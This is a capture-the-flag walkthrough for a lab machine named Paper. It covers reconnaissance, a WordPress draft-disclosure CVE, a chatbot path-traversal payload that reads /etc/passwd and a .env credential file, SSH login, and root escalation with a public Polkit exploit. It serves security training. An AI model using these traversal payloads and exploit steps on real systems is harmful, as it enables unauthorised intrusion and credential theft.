

# Paper



#### <mark style="color:yellow;">Table Of Content</mark>

* [Information Gathering](paper.md#information-gathering)
* [Backend-server](paper.md#undefined)
* [Disclosed Secrets](paper.md#disclosed-secrets)
* [Bot = LFI](paper.md#bot-lfi)
* [Privilege Escalation](paper.md#privilege-escalation)


### <mark style="color:orange;">Information Gathering</mark>

`nmap -sC -sV -A 10.10.11.143`

.png>)

We got 3 open ports ( 22, 80, 443 )

Try to visit http://10.10.11.143 i found HTTP Server Test Page running on Apache 2.4.37

.png>)

So, the First thing that came to my mind was to enumerate any sensitive directories and files

1. run dirb on [http://10.10.11.143/](http://10.10.11.143)
2. open burpsuit and see anything interesting ( and it was indeed )

### <mark style="color:orange;">Backend-Server</mark>

.png>)

The target website returns `X-Backend-Server` Include potential internal / hide IP Header of address or hostname. By exposing these values, An attacker may bypass the security agent and access the host directly

* Add `office.paper` to `/etc/hosts`

`10.10.11.143 office.paper`


### <mark style="color:orange;">Disclosed Secrets</mark>

visit **http://office.paper** and notice that [**Wappalyzer** ](https://www.wappalyzer.com)was detected that it runs **`WordPress CMS`** version`5.2.3`

.png>)

Search for exploit and found [CVE-2019-17671：Wordpress Unauthorized access vulnerability recurrence](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671)

* So we can use `http://office.paper/?static=1`

.png>)

```
test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!
```

Found a secret registration page on http://chat.office.paper/register/8qozr226AhkCHZdyY

So now navigate on this website but remember to add it in /**etc/hosts**

### <mark style="color:orange;">**Bot = LFI**</mark>&#x20;

.png>)

**Complete this registration form and login**

After a little bit of time, a pop-up will appear with a chat general. Now we can see that this bot use his own command like this:

.png>)

```
Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```

we can’t talk in this chat because is “read only” so, let’s communicate with the bot privately and try to use this command.

```
recyclops file ../../../../../etc/passwd
```

After that we can enumerate the user and we will find the correct password:

```
recyclops file ../hubot/.env

export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=<REDACTED>
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

Now we can login in ssh!! with this password! and Get User Flag :tada::smile:

`$ ssh REDACTED@10.10.11.143`

```
[<REDACTED>@paper ~]$ cat user.txt 
FLAG HERE :)
```

### <mark style="color:orange;">Privilege Escalation</mark>

Now, we need to scan machine and try to get root access. I use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to do internal scan

.png>)

Found that the machine is vulnerable to [CVE-2021-3560](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3560)-Polkit-Privilege-Esclation. It allows non privileged users to use DBus Call privileged methods.

**CVE-2021-3560 POC:** [https://github.com/Almorabea/Polkit-exploit](https://github.com/Almorabea/Polkit-exploit)

* Upload py Script and run

.png>)

And .. Boom we are **Root**

****


****

****

> **Thanks for reading**
